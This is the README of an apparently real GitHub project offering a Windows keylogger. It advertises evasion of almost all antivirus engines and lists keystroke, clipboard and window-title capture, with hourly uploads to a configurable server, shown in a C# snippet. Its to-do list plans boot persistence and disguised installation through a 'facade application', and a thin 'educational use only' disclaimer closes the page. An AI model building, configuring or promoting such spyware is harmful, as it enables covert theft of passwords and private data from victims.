


 
 

# Windows Keylogger
It is a Windows keylogger undetected by all major anti-virus.

## Virustotal

This keylogger is undetected by 99% of the anti-virus on [**virustotal**](https://www.virustotal.com/gui/).



## Installation

Download the lastest release and install it.

You can edit th lines 18-19 to add your server where send logs :
```Csharp
string serverLink = "http://server-example/getLog.php";
string serverArg = "log";
```

## Features

* Log keys
* Log the clipboard
* Log window titles
* Send logs to a server each hour

## Logs example



## To do

- [ ] Start the keylogger when the computer is starting
- [ ] Install the keylogger from a facade application
- [ ] Improve the specific country keyboard support

## Contributing

Pull requests are welcome. For major changes, please open an issue first to discuss what you would like to change.

Please make sure to update tests as appropriate.

## Disclaimer

**This project is for educational use only. Installing computer monitoring tools on computers you do not own or do not have permission to monitor may violate local, state or federal law.**

Logging other people's keystrokes or breaking into other people's computer without their permission can be considered illegal by the courts of many countries. The monitoring software reviewed here is ONLY for authorized system administrators and/or owners of computers. We assume no liability and are not responsible for any misuse or damage caused by the keylogging software. The end user of this software is obliged to obey all applicable local, state, federal and other laws in his country of residence.

## License

This project is under [GPLv3](https://github.com/Darkempire78/Raid-Protect-Discord-Bot/blob/master/LICENSE).
